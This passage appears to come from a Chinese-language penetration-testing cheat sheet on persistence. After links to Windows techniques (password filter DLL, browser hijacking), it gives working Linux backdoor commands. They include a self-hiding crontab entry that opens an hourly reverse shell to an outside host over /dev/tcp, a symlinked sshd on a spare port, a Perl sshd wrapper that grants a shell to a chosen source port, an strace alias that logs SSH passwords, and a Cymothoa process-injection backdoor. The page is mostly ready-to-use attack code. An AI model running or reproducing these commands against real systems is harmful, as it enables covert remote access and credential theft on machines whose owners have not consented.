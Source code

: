 ##### 30、[Password Filter DLL](https://3gstudent.github.io/Password-Filter-DLL在渗透测试中的应用)

##### 31、[利用BHO实现IE浏览器劫持](https://3gstudent.github.io/利用BHO实现IE浏览器劫持)

## Linux

##### crontab

每60分钟反弹一次shell给dns.wuyun.org的53端口

```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

##### 硬链接sshd

```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```

链接：ssh root@192.168.206.142 -p 2333

##### SSH Server wrapper

```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```

##### SSH keylogger

vim当前用户下的.bashrc文件,末尾添加

```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```

source .bashrc

##### Cymothoa_进程注入backdoor

```
./cymothoa -p 2270 -s 1 -y 7777
nc -vv ip 7777
```
